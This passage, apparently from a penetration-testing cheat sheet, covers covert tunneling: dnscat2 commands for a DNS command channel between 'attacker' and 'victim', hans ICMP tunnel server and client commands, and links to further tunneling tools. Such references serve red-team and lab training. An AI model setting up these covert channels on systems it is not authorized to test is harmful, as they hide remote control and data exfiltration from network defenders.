 - **DNSCat2 (no root needed):**

```bash

attacker> ruby dnscat2.rb domain.com
victim> ./dnscat2 domain.com

```

---

### ICMP Tunneling (hans/hanstunnel)

- Root access needed to create tun interfaces.

```bash

hans -v -f -s 1.1.1.1 -p password
hans -f -c <server_ip> -p password -v

```

---

## **Other Tools to Explore**

- [Secure Socket Funneling (SSF)](https://github.com/securesocketfunneling/ssf)
- [3proxy - Tiny proxy server](https://github.com/z3APA3A/3proxy)
- [gtunnel - Tunnels in Go](https://github.com/hotnops/gtunnel)
